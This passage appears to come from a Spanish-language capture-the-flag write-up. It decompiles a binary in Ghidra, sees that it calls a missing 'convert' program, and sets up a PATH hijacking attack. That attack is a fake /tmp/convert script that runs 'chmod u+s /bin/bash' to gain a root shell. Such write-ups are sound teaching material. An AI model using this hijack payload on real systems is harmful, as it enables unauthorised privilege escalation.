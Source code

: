 Una vez que nos lo hayamos pasado, vamos a ejecutar la herramienta llamada `ghidra` para poder decompilar el binario y poder observar como funciona.

```shell
ghidra
```

Una vez abierto crearemos un nuevo proyecto, despues le daremos al icono del dragon de color verde y dentro del mismo vamos a importar un archivo, seleccionaremos el `runme`, una vez importado si nos vamos a `Functions` -> `main` veremos el codigo decompilado.

<figure><img src="../../.gitbook/assets/image (379).png" alt=""><figcaption></figcaption></figure>

Vemos que esta llamando a un `binario`, vamos a probar a llamarlo nosotros en la terminal.

```shell
convert
```

Info:

```
bash: convert: command not found
```

Vemos que no existe dicho `binario` por lo que podremos realizar un `Path Hijacking` vamos a crear nosotros un archivo que se llame `convert` en la `/tmp` y vamos a exportar la variable `PATH` para que vaya primero al archivo que hemos creado cuando ejecutemos el binario.

```shell
cd /tmp
nano convert

#Dentro del nano
#!/bin/bash

echo "Permisos establecidos de forma correcta..."
chmod u+s /bin/bash
```
